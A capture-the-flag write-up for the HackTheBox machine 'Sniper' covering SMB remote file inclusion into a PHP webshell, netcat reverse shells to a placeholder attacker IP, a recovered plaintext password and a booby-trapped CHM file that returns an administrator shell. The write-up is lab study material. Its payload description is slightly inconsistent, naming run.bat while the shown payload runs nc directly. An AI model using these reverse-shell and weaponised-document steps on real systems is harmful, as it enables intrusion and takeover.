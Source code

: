 ```yaml
---
title: "HTB: Sniper"
categories:
  - HackTheBox
tags:
  - HackTheBox
---
```


![Sniper](https://miro.medium.com/max/3614/1*VtTxWloeoQG79y4TBpNfcA.jpeg)

## Initial Foothold

http://sniper.htb/blog/?lang=\\xx.xx.xx.xx\share\test.php is vulnerable to RFI over SMB.

We can set up a SMB server to exploit the RFI here:

Add to the bottom of /etc/samba/smb.conf:

```
[share]
path = /home/xxxx/share
writable = no
guest ok = yes
guest only = yes
read only = yes
directory mode = 0555
force user = nobody
```

Then, chmod the directory:

```
chmod 0555 /home/xxxx/share
```

We can use the webshell found at the following github:

https://github.com/WhiteWinterWolf/wwwolf-php-webshell

Now, by visiting http://sniper.htb/blog/?lang=\xx.xx.xx.xx\share\webshell.php we are able to upload file and execute commands!

The first thing we need to do is create a new folder _C:\TEMP_ and upload nc.exe to it.

From here, we are able to run the command:

```
C:\TEMP\nc.exe -nv xx.xx.xx.xx 4444 -e cmd.exe
```

Voila, we have a shell!

## Pivoting to User

While enumerating, we stumble upon some credentials held in C:\inetpub\wwwroot\user\db.php:

**chris:36mEAhz/B8xQ~2VM**

We can use a switch-shell with Powershell to get a semi-interactive shell:

```
function switch-psuser {

    Param(
        [Parameter(Position=0)]
        [ValidateSet("adminsystem","administrator")]
        $User = "adminsystem"
    )

    switch($User)
    {
        'adminsystem'   { $username = "domain\adminsystem" ; $pw = "yyy"}
        'administrator' { $username = "sniper\chris" ; $pw = "36mEAhz/B8xQ~2VM" }
    }

    $password = $pw | ConvertTo-SecureString -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username,$password
    New-PSSession -Credential $cred | Enter-PSSession
}
switch-psuser administrator
```

We can now run nc.exe since this shell can execute commands. However, we need to first grant this user permissions to access it using our webshell:
```
cacls C:\TEMP /e /p chris:f
cacls C:\TEMP\nc.exe /e /p chris:f
```
Now, we can run nc.exe and receive a shell:
```
C:\TEMP\nc.exe -nv xx.xx.xx.xx 4444 -e cmd.exe
```

Voila, we have user!

## Getting Root

We've got a note in C:/Docs that's semi helpful:

```
Hi Chris,
        Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
```
Based on the note, it looks like whatever we drop in C:/Docs might be looked at by the administrator.

Also, in C:\Users\chris\Downloads, there's a file called instructions.chm.

A publically available exploit for chm files is available:

https://gist.github.com/mgeeky/cce31c8602a144d8f2172a73d510e0e7

## Exploiting the CHM for Profit

We first need to unpack the chm file:

```
copy C:\Users\chris\Downloads\instructions.chm C:\TEMP
cd C:\TEMP
hh -decompile extract instructions.chm
cd extract
nc -nv xx.xx.xx.xx 4444 < a.html
```

Now, once we catch this on our machine, we can see what's in the HTML file:

```
<html>
<body>
<h1>Sniper Android App Documentation</h1>
<h2>Table of Contents</h2>

<p>Pff... This dumb CEO always makes me do all the shitty work. SMH!</p>
<p>I'm never completing this thing. Gonna leave this place next week. Hope someone snipes him.</p>
</body>
</html>
```

We can modify the PoC and place it in the body of our file. The end results is:

```
<html>
<body>
<h1>Sniper Android App Documentation</h1>
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=",nc,-nv xx.xx.xx.xx 4444">
 <PARAM name="Item2" value="273,1,1">
</OBJECT>

<SCRIPT>
x.Click();
</SCRIPT>
<h2>Table of Contents</h2>

<p>Pff... This dumb CEO always makes me do all the shitty work. SMH!</p>
<p>I'm never completing this thing. Gonna leave this place next week. Hope someone snipes him.</p>
</body>
</html>
```

Now, because we've asked it to call run.bat in our TEMP folder, we need to create a batch script for it to run:

```
echo C:\TEMP\nc.exe -nv xx.xx.xx.xx 4444 -e cmd.exe > C:\TEMP\run.bat
```

From here, we need to create a Project.hpp file to point hh.exe at when we recompile the chm file:

```
[FILES]
<PATH TO FILES>\a.html
```

Now, we copy the Project.hpp file and a.html to a windows machine and run:

```
hhc.exe <PATH TO FILES>\Project.hpp
```

We're given a Project.chm file in the same folder that held Project.hpp. We can copy this over to the victim machine, place it in C:\Docs and wait for it to return a shell to us!

```
C:\>whoami
whoami
sniper\administrator
```

